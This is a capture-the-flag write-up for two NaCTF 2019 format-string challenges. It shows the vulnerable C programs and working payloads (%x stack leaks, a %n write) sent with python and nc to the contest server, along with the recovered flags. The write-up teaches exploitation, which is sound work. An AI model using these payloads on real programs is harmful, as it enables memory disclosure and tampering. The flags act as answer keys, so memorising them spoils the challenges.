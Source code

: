 <h2>fmt0 & fmt1 - NaCTF</h2>
<p>23/09/2019</p>

<p>
In this post, I am going to go over two format string vulnerabilities that
I exploited in <a href="https://ctftime.org/event/869">NaCTF 2019</a>.
First I'm going to look at the challenge <a href="fmt0.zip">fmt0</a>.
</p>


<pre>
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

void vuln(char* flag)
{
	char buf[64];
	printf("Type something&gt;");
	fgets(buf, sizeof(buf), stdin);
	printf("You typed: ");
	printf(buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);

    char flag[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if \
                this is happening on the shell server\n");
        exit(1);
    }
    else
    {
        fgets(flag, sizeof(flag), f);
    }
    
    vuln(flag);
    return 0;
}
</pre>

<p>
In order to start testing the program, we first need to create another
file flag.txt in the same directory, since the first thing the code does
is read the flag from the file and put it into char flag[256]. After this,
it makes a call to vuln function where it asks the user for input and puts
it into buf.
</p>

<p>
We get our cue for a format string vulnerability as soon as we observe
that buf is being put into printf as an argument (in the vuln function).
If it were in this form: printf("%s",buf);, our printf would have been
safe, but since the developer didn't put any format string specifiers on
his own, we can exploit this program. Our goal is to read the contents of
the flag array that is kept in the stack frame of the main function. Let's
start small and see what happens when we insert a format specifier into
the program.
</p>

<pre>
$ ./format-0
Type something&gt;AAAA
You typed: AAAA

$ ./format-0
Type something&gt;%x
You typed: 40

$ ./format-0
Type something&gt;%d
You typed: 64
</pre>

<p>
The reason we get a 40 when we put a %x is because what a format specifier
does is pop the next value off the stack and display it, ideally this
value on the stack should be mentioned by the developer using arguments in
printf, when not, we can essentially read the entire stack. When we
convert 40 from hexadecimal to decimal we see that it turns out to be 64
which is the length of the char array buf. Interesting.
</p>

<p>
Now, let's try reading more values from the stack.
</p>

<pre>
$ ./format-0
Type something&gt;AAAA.%08x.%08x.%08x.%08x.
You typed: AAAA.00000040.f7f675c0.f7df504c.41414141.

$ ./format-0
Type something&gt;AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.
You typed: AAAA.00000040.f7ecf5c0.f7d5d04c.41414141.3830252e.30252e78.252e7838.2e783830.
</pre>

<p>
Here, %08x is to display the values from the stack as hexadecimal numbers
padded with eight zeros. So the 40 appears as 00000040. Towards the end
you can see 41414141 which is the same as the AAAA, but in hexadecimal
format. Which means that after popping a few values off the stack, we get
to the starting point of our string.
</p>

<p>
Now, if you recall, our goal was to read the flag that is kept in the
stack frame of the main function. We can do this the better way the help
of gdb or we can do it the crappy way using hit and try (like I did). So I
kept increasing the number of %08x's looking for ASCII values. Then I
stumbled upon the offset format specifier which I coupled up with a python
loop to get the contents of memory addresses that flag spans.
</p>

<pre>
$ python -c 'for i in range(40,30,-1): print("%"+str(i)+"$x"),' | ./format-0
Type something&gt;You typed: a7d6761 6c665f79 6d6d7564 5f735f72 6179616e 5f796168 62615f73 695f7369 68747b66 7463616e
</pre>

<p>
The %[num][fs]$ helps us use the format specifier fs at an offset num from
the beginning of where we start	reading the stack. We need this, since our
string isn't long enough to reach flag using %08x's. We can see that the
values that we are getting are in the ASCII range,	so we head up to a hex
to ASCII converter online and get it converted.
</p>

<p>
You might have noticed that I am running the loop backwards from 40 to 30.
This is because of little-endianness. For example if you store ABCD EFGH
on a stack and later retrieve it, it will be something like DCBA HGFE. So
the individual bytes are reversed, but not the entire word. Therefore in
order to retrieve it, I go in reverse order and I get HGFE DCBA which can
then be easily reverse to get the original order. Keep in mind that all of
this can be done using an elegant python script, but I was lazy so I just
hacked it together.
</p>

<pre>
6761 6c665f79 6d6d7564 5f735f72 6179616e 5f796168 62615f73 695f7369 68747b66 7463616e
galf_ymmud_s_rayan_yahba_si_siht{ftcan
</pre>

<p>
I spliced out the first two bytes since they were garbage values. Now, we
need to reverse the string once more to get the final flag. And we are 
again going to use an online tool (because we don't know how to reverse a
string in any other efficient way).
</p>

<pre>
nactf{this_is_abhay_nayar_s_dummy_flag
</pre>

<p>
This is the value that I wrote in the file flag.txt that I created in the
beginning.  I also had a closing bracket but apparently I made an off by
one error.  Now we just need to run this on the server to get the flag.
</p>

<pre>
python -c 'for i in range(31,41): print("%"+str(i)+"$x "),' | nc shell.2019.nactf.com 31782
</pre>

<p>
After some formatting and hacking around:<br>
Flag: <b>nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}</b>
</p>

<hr>

<p>On to the next challenge: <a href="fmt1.zip">fmt1</a></p>

<pre>
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

void win()
{
    char flag[256];
    FILE* f = fopen("./flag.txt", "r");
    if (f == NULL)
    {
        puts("flag.txt not found - ping us on discord if \
                this is happening on the shell server\n");
        exit(1);
    }
    else
    {
        fgets(flag, sizeof(flag), f);
        puts(flag);
    }
}

void vuln(int* num)
{
    char buf[64];
    printf("Type something&gt;");
    fgets(buf, sizeof(buf), stdin);
    printf("You typed: ");
    printf(buf);
}

int main()
{
    /* Disable buffering on stdout */
    setvbuf(stdout, NULL, _IONBF, 0);
    
    int num = 69;
    vuln(&amp;num);

    if (num == 42)
    {
        puts("You win!");
        win();
    }
    else
    {
        printf("%d != 42, try again", num);
    }

    return 0;
}
</pre>

<p>
This is a slightly modified version of the above challenge. The key thing
to note is that now the flag is being read from a file only after we pass
the condition check num == 42. So somehow we need to modify the the value
of num. 
</p>

<p>
Another thing that I struggled for a while on this challenge was
randomized address values.  Apparently gdb gives you the same address
values when you debug a program, so when I finally "solved" the challenge
in gdb, I was dissapointed to realize that it didn't work on their server.
Using the -p flag you can attach a process to gdb and see that you get
different values for the address of num every time you run it.
</p>

<p>
Getting back to the problem, our goal is to change the value of num such
that it equals 42.  There is only one format specifier that can help you
write values: %n. What it does is write the number of characters so far in
the printf statement to the given variable on the stack. So for example
AAAA%n will write the value 4 into the address that it finds as soon as it
pops the stack.
</p>

<p>
With this information in mind, we realize that we need two things:
<ul>
<li>Address of the variable we need to change.</li>
<li>Address of where the format specifiers start reading from.</li>
</ul>
</p>

<p>
Luckily we don't have to go to the main's stack to change num. In fact,
the address of num keeps changing, so we can only use the pointer to num.
The second address can easily be figured out by entering some recognizable
sequence such as "AAAAABBBB...%x.%x." and then inspecting the memory
immediately after the buffer is filled.
</p>

<p>
With these two addresses, we can get the offset value and using the same
technique as above this time with the %n specifier, we can write the
value. After some inspection with gdb, I figured out the the offset was
24. So instead of printing the exact address, we could get the offset. We
were lucky to have num passed as an argument to the function (even though
it serves no other purpose than to help us solve the challenge).
</p>

<pre>
$ python -c 'print "%42x%24$n"' | nc shell.2019.nactf.com 31560
Type something&gt;You typed:                                         40
You win!
nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}
</pre>

<p>
Just like we used %08x in the first challenge to pad the address values,
we are using %42x here because that's what we want %n to write, into the
given address of num.
</p>

<p>
Flag: <b>nactf{Pr1ntF_wr1t3s_t0o_rZFCUmba}</b>
</p>

</body>
</html>
